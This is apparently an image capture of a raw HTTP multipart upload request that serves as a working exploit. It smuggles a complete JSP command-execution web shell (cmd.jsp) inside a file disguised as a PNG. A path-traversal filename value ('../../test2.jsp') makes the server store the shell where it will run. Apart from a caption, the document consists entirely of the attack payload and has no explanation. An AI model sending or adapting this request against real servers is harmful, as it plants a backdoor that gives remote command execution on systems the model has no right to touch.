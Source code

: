 ```http
Cookie: JSESSIONID=743AE59EABCED3FCE5A904038A938DF3
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------4067362124160935221168699314
Content-Disposition: form-data; name="Upload"; filename="john.png"
Content-Type: image/png

PNG

<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>

-----------------------------4067362124160935221168699314
Content-Disposition: form-data; name="top.UploadFileName"

../../test2.jsp

-----------------------------4067362124160935221168699314--
```

